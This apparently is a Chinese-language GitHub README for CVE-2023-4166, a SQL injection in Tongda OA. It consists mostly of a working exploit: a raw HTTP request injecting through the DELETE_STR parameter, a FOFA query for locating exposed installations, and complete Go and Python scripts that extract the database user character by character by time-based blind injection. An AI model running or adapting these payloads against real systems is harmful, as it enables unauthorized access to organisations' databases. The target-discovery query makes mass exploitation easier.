

## 通达OA sql注入漏洞 CVE-2023-4166
复现版本：11.7版

## 影响版本
```
通达OA ≤ v11.10，v2017
```

## poc
``` 
GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

## FOFA语法：
```
app="TDXK-通达OA" && icon_hash="-759108386"

```
## 利用脚本
### go
```go
package main

import (
 "fmt"
 "net/http"
 "strings"
 "time"
)
// 通达OA CVE-2023-4165&CVE-2023-4166 注入漏洞
func main() {
 // /general/system/seal_manage/iweboffice/delete_seal.php?DELETE_STR=1  general/system/seal_manage/dianju/delete_log.php
 url := "http://127.0.0.1/general/system/seal_manage/dianju/delete_log.php"                                                                                     // 目标网站的URL
 delay := 2                                                                                                                                                          // 延迟时间，单位为秒
 cookieValue := "PHPSESSID=pv74trjff1qshvt5dktujjfbq3; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=ec800c19" // 替换为有效的Cookie值

 characters := "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_!@#$%^&*()+-" // 可能的字符集

 result := ""
 for i := 1; i <= 30; i++ { // 假设字符的最大长度为30
  found := false
  for _, char := range characters {
   payload := fmt.Sprintf("1) and (substr(USER(),%d,1))=char(%d) and (select count(*) from information_schema.columns A,information_schema.columns B) and(1)=(1", i, int(char)) // 构造payload
   //print(payload, "n")
   req, err := http.NewRequest("GET", url, nil)
   if err != nil {
    fmt.Println("创建请求失败:", err)
    return
   }

   // 使用分号分隔的每个Cookie项
   cookieItems := strings.Split(cookieValue, "; ")
   for _, item := range cookieItems {
    itemSplit := strings.SplitN(item, "=", 2) // 按照等号（=）分隔键值对
    if len(itemSplit) == 2 {
     cookie := &http.Cookie{
      Name:  itemSplit[0],
      Value: itemSplit[1],
     }
     req.AddCookie(cookie)
    }
   }

   req.URL.RawQuery = "DELETE_STR=" + payload //构建请求，其DELETE_STR是本次的注入参数

   startTime := time.Now()
   resp, err := http.DefaultClient.Do(req)
   if err != nil {
    fmt.Println("发送请求失败:", err)
    return
   }
   defer resp.Body.Close()

   endTime := time.Now()
   responseTime := endTime.Sub(startTime)

   if responseTime >= time.Duration(delay)*time.Second {
    result += string(char)
    fmt.Println("", result)
    found = true
    break
   }
  }

  if !found {
   break
  }
 }

 fmt.Println("Database: " + result)
}
```

### Python
```python
import requests
import time

headers={"Cookie":"PHPSESSID=hji419h9o5gc4dk3ftfqocmu42; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=baae495a"}

characters = "abcdefghijklmnopqrstuvwxyz0123456789_!@#$%^&*()+-"

url = "http://127.0.0.1/general/system/seal_manage/dianju/delete_log.php?DELETE_STR="

result = ""

for i in range(1,31):
    found = False
    for c in characters:
        payload = f"1) and (substr(USER(),{i},1))=char({ord(c)}) and (select count(*) from information_schema.columns A,information_schema.columns B) and(1)=(1"
        start_time = time.time()
        res = requests.get(url=url+payload,headers=headers)
        end_time = time.time()
        elapsed_time = end_time - start_time
        
        if elapsed_time >= 2:
            result +=c
            print(result)
            found = True
    if not found:
        break
    
print("Databas:",result)
```


